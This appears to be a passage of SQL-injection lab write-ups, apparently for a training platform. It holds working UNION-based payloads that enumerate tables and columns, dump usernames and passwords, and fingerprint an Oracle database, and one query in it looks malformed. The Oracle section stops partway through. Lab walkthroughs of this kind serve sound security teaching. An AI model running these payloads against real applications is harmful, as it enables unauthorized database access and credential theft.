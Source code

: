  **Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

**Solution:**

`Corporate+gifts' UNION SELECT NULL FROM dual-- -`
`Corporate+gifts' UNION SELECT NULL FROM information_schema.tables-- -`
`Corporate+gifts' UNION SELECT NULL,NULL FROM information_schema.tables-- -`

`Corporate+gifts' UNION SELECT 'abc',NULL FROM information_schema.tables-- -`
`Corporate+gifts' UNION SELECT 'abc','def' FROM information_schema.tables-- -`

`Corporate+gifts' UNION SELECT 'abc',NULL FROM information_schema.tables-- -`
`Corporate+gifts' UNION SELECT table_name,NULL FROM information_schema.tables-- -`
`Corporate+gifts' UNION SELECT information_schema.columns,NULL FROM pg_user-- -`

`Corporate+gifts' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_owyiqh'-- -`

`Corporate+gifts' UNION SELECT username_pskmeg,password_kmalhv FROM users_owyiqh WHERE username_pskmeg='administrator'-- -`

---
---
## 6. Lab: SQL injection attack, listing the database contents on Oracle

 **Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

**Solution:**

To test it is vulnerable with SQL injection or not make the `'` if the response give you 500 internal server error you got the SQL injection.

You make the `' OR 1=1-- -`

First thing you want to search with this is the Type and Version of Database.
	`Gift' UNION SELECT NULL FROM dual-- -`
	`Gift' UNION SELECT NULL,NULL FROM dual-- -`
	`Gifts' UNION SELECT BANNER,NULL FROM v$version-- -`
